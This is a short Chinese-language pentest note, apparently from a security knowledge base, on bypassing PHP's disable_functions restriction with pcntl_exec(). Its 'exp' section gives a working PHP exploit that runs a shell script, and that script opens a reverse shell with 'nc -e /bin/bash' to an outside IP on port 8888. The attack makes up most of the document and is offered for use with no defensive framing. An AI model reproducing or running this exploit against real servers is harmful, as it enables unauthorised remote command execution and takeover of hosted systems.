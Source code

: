 ```yaml
---
title: 利用 pcntl_exec 绕过
id: zhfly3466
---
```


## ***利用 pcntl_exec 绕过***

**1\. 前提条件**

PHP安装并启用了pcntl插件

**2\. 基本原理**

利用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令，从而绕过disable_functions

**3\. exp**

> exp.php

```
#利用pcntl_exec()执行test.sh
<?php
if(function_exists('pcntl_exec')) {
  pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
    echo 'pcntl extension is not support!';
}
?> 
```

> test.sh

```
#!/bin/bash
nc -e /bin/bash 1.1.1.1 8888    #反弹shell 
```